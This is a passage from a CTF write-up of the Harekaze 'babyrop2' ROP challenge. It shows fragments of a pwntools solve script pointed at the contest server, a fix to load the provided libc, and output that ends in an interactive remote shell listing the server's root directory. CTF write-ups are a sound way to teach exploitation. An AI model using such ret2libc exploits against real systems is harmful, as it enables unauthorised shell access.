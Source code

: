 Change the process to netcat!
```python
# p = elf.process()
p = remote('problem.harekaze.com',20005)
```

```bash
# python solve.py 
[*] '/root/Downloads/harekaze/rop2/babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded cached gadgets for './babyrop2'
[+] Opening connection to problem.harekaze.com on port 20005: Done
[*] Switching to interactive mode
What's your name? Welcome to the Pwn World again, aaaaaaaaaaaaaaaaaaaaaaaaaaaaA!
[*] Got EOF while reading in interactive
$  
```
But it got something wroong...

Looks like we forgot to use the `libc.so.6` it give us, it wont work because different version
```python
libc = ELF('./libc.so.6')
```
Run the script, and it works perfectly! =)
```bash
# python solve.py 
[*] '/root/Downloads/harekaze/rop2/babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/root/Downloads/harekaze/rop2/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded cached gadgets for './babyrop2'
[+] Opening connection to problem.harekaze.com on port 20005: Done
[*] Switching to interactive mode
What's your name? Welcome to the Pwn World again, aaaaaaaaaaaaaaaaaaaaaaaaaaaaA!
$ ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
```